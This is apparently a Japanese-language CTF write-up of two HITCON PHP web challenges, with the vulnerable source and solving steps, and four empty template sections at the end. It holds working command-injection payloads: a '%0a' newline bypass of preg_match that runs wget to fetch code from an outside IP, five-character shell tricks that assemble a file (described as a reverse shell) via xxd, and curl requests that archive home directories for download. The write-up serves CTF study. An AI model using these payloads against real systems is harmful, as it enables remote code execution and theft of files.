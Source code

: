 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**

- [writeup](#writeup)
  - [PHP "preg_match" with "%0a" (hitcon2015 babyfirst)](#php-preg_match-with--hitcon2015-babyfirst)
  - [PHP "exec(cmd) len(cmd)<= 5"(Hitcon CTF 2017 Quals: Baby First Revenge)](#php-execcmd-lencmd-5hitcon-ctf-2017-quals-baby-first-revenge)
  - [](#)
  - [](#-1)
  - [](#-2)
  - [](#-3)
- [メモ](#%E3%83%A1%E3%83%A2)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# writeup
## PHP "preg_match" with "%0a" (hitcon2015 babyfirst)
https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst  
https://github.com/pwning/public-writeup/blob/master/hitcon2015/web100-babyfirst/writeup.md  
- **entrypoint**  
以下のソースが与えられる。  
`if ( !preg_match('/^\w+$/', $args[$i]) )`で行頭から行末までが`\w`(abcdefghijklmnopqrstuvwxyz0123456789_)の時に`/bin/orange`コマンドと結合する。  
`preg_match`の`^ $`では改行文字`%0a`を入れると「行頭から改行文字まで」に範囲が変わってしまって、改行文字以降はチェックしなくなる！  
https://qiita.com/tadsan/items/81b2925b3ed03ae6b7e0  

```php
<?php
    highlight_file(__FILE__);

    $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
    if ( !file_exists($dir) )
        mkdir($dir);
    chdir($dir);

    $args = $_GET['args'];
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
    }
    exec("/bin/orange " . implode(" ", $args));
?>
```
以下のようにすることで`%0a`以降のコマンドを普通に実行できる。  
配列にしてるのは`$args[$i]`で入力が配列として期待されているから。  
```txt
http://localhost/
?args[0]=x%0a
&args[1]=mkdir
&args[2]=orange%0a
&args[3]=cd
&args[4]=orange%0a
&args[5]=wget
&args[6]=846465263%0a
```
- **payload**  
```txt
http://localhost/
?args[0]=x%0a
&args[1]=mkdir
&args[2]=orange%0a
&args[3]=cd
&args[4]=orange%0a
&args[5]=wget
&args[6]=846465263%0a
```
## PHP "exec(cmd) len(cmd)<= 5"(Hitcon CTF 2017 Quals: Baby First Revenge)
https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge  
https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/  
https://hack.more.systems/writeup/2017/11/06/hitconctf-babyfirstrevenge/  
- **entrypoint**  
以下のPHPソースが与えられる。つまり、5文字以内でFlagをゲットする必要がある。  
```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```
いろいろ解法があるらしいけど、以下のようにして`HELLO`という文字列を`z`というファイルに子の手順で書き込めるらしい。  
`>4845`,`ls>>y`で`y`というファイルに`4845`という値が書き込まれる。  
こんな調子でyというファイルにHEXで書き込んでいく。  
`*`でファイルが展開されて最終的に`xxd -p -r y z`みたいにASCIIに直して書きこむ。 
これでリバースシェルも書き込んでFlagゲット。  
```txt
>4845
ls>>y
rm 4*
>4c4c
ls>>y
rm 4*
>4f
ls>>y
rm 4*
>z
>-p
>-r
xxd *
```
別のやり方として、以下のように`*`でファイルを展開してコマンドとして実行できるらしい！  
以下だと`find /`が実行できる。  
`/home/fl4444g/README.txt`が得られるらしい。  
```txt
curl 'http://52.199.204.34/?cmd=>find'
curl 'http://52.199.204.34/?cmd=*%20/>x'
```
以下で`tar zcf zzz /h*`でzzzというファイルを作成してそれをダウンロードしてFlagゲット。(この後もいろいろあるけど同じことなので割愛)  
```txt
curl 'http://52.199.204.34/?cmd=>tar'
curl 'http://52.199.204.34/?cmd=>zcf'
curl 'http://52.199.204.34/?cmd=>zzz'
curl 'http://52.199.204.34/?cmd=*%20/h*'
```
- **payload**  
```txt
>4845
ls>>y
rm 4*
>4c4c
ls>>y
rm 4*
>4f
ls>>y
rm 4*
>z
>-p
>-r
xxd *
```
```txt
curl 'http://52.199.204.34/?cmd=>tar'
curl 'http://52.199.204.34/?cmd=>zcf'
curl 'http://52.199.204.34/?cmd=>zzz'
curl 'http://52.199.204.34/?cmd=*%20/h*'
```
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  

# メモ
